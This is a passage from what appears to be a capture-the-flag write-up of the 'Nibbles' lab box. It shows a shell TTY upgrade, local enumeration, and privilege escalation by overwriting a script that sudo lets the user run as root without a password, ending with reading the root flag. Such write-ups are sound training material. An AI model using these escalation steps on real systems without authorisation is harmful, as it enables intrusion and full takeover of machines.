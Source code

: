 I see some noise on my netcat listener pane and I'm in. I set up a TTY shell because without it some things just won't work well or at all like Vim or the clear command. Usually I'd use the python command, but that was not available, but python 3 was.

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Press Ctrl+Z

```
echo $TERM
stty size
stty raw -echo; fg
```
Press Enter twice

``
export TERM=xterm-256color #(value after = should match what you got after echo $TERM)
stty rows 60 columns 116 #(values for rows and columns should match what you go for stty size)
``

## Privilege Escalation

### Becoming root

To find out what openings I have for privilege escalation on the box, I use the Linux Smart Enumeration script. I tried to download it with cURL and wget but they could not resolve the GitHub address, so I manually copied the contents of the file from https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh and then use Vim to create the file, set the permissions and run the script.

```
vim lse.sh
chmod +x lse.sh
./lse.sh -l 1
```

The script shows that I can run the monitor.sh as root without a password.

```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The monitor.sh file is contained within a zip file. I unzip it, change to the personal stuff directory and check out the permissions on the contents. My user nibbler has permissions to read, write and execute.

```
unzip personal.zip
cd ~/personal/stuff
ls -la
```

Because this file can be run as root without a password I can change the contents to run the bash command and become the root user and get the root flag.

```
echo '#!/bin/bash' > monitor.sh
echo 'bash' >> monitor.sh
sudo ./monitor.sh
id
cat /root/root.txt
```
